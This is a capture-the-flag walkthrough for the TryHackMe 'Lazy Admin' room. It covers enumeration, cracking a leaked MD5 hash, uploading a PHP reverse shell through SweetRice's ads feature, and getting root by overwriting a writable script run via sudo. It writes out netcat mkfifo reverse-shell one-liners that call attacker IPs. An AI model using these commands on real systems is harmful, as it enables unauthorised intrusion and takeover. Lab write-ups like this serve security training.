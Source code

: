 # Lazy Admin

Easy box from THM. 
Room can be found here https://tryhackme.com/room/lazyadmin#

`export IP=10.10.160.133`


## Overview

Tags:
- **SweetRice**
- **sudo-l**
- **Security Misconfig**
- **ALWAYS CHECK SUID!!!!**

## user.txt

Starting with nmap:
```sh
nmap -sC -sV -oA nmap/ $IP
```
Found the following ports open:
- 22 --> SSH
- 80 --> HTTP

The website is nothing but the default Apache2 page


Then we run Gobuster:
```sh
gobuster -dir  $IP
```
Found following subdomain:
`/content`

This page tells us that something called `SweetRice` is running on the server

We then do a new gobuster for the /content subdomain and find a bunch more:
```sh
/images     [--> http://10.10.210.85/content/images/]
/js         [--> http://10.10.210.85/content/js/]    
/inc        [--> http://10.10.210.85/content/inc/]   
/as         [--> http://10.10.210.85/content/as/]    
/_themes    [--> http://10.10.210.85/content/_themes/]
/attachment [--> http://10.10.210.85/content attachment/]
```

Exploring these we found a sql database backup in the `/inc` subdomain, we save it and dig around in it and find a potential hash:
`42f749ade7f9e195bf475f37a44cafcb`

This is an outdated md5 hash for `Password123`
The username is `manager` and not *admin*

Googling SweetRice, there where multiple vulnerabilities using the /as subdomain. We explore it and are prompted with a loginpage on `$IP/content/as`
We can use our credentials to log into the admin panel. 


On the admin panel we can add "ADS" on the /content/inc/ads folder, and we can upload php code that will execute (based on a PoC from ExploitDB, Link is here: https://www.exploit-db.com/exploits/40700)

We then upload pentestmonkeys reverseShell script to a ADS that we name `dontclick.php` and set up a netcat listener on our machine. Once we go to the http://10.10.158.205/content/inc/ads/dontclick.php it will execute the php code, and we catch the shell with netcat on out machine. 

We now have a rev shell and can look for user.txt

To get a more stable shell we use the following python magic:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then type `ctrl + Z`
Then type `stty raw -echo`
Then type `fg`
Then type `export TERM=xterm256-color`

We now have atb autocomplete and a more stable shell that does not crash that often.










## root.txt 

We see a mysql_login.txt on the `itguy` user `home` folder. It contains the following credentials: `rice:randompass`. It might come in handy later.

Using `sudo -l` we see that www-data can run the following script as root: `backup.pl`. So we start by analyzing it. 



Here is the script:

```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

This script uses the `system()` function in **perl** to run all systemcommands in the `/etc/copy.sh` bashscript.
If we `cat` the `copy.sh` script, we see it contains the following:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

That is a reverse shell.. And we have the ability to write to this copy.sh script. That means we can change the IP and port to trace back to us. 

The solution is a bit tricky since we cant nano the script for some reason. 
I ended up just overwriting the whole script with another rev shell using the `>` delimeter which overwrites:
```sh 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.33.116 9002 >/tmp/f" > /etc/copy.sh
```

Now we set up a listener on my machine for port 9002 with the following command:
```sh
nc -lnvp 9002
```

Finally we can run the script, but we have to use the full path, as stated with the `sudo -l` command:
```sh
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we run backup.pl on the victim machine:
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

We catch the shell on out own machine, and we are root!
